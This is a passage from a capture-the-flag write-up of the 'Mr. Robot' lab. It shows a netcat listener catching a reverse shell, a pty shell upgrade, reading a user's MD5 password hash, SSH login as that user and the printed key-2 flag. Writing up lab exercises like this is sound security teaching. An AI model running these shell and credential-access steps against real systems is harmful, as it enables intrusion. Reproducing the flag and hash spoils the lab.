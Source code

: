 
![mr.robot3](assets/mr.robot/32.png)

**Netcat listener & reverse shell (snippet):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.23.168.139] from (UNKNOWN) [10.10.199.99] 54086
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@ip-10-10-199-99:/$ whoami
daemon
```

![mr.robot3](assets/mr.robot/33.png)
**Discovery in `/home/robot`:**

```text
daemon@ip-10-10-199-99:/home/robot$ ls
key-2-of-3.txt  password.raw-md5

daemon@ip-10-10-199-99:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```



![mr.robot3](assets/mr.robot/34.png)
**SSH to `robot` & reading key-2:**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ sudo ssh robot@10.10.199.99
[...]
$ ls
key-2-of-3.txt  password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
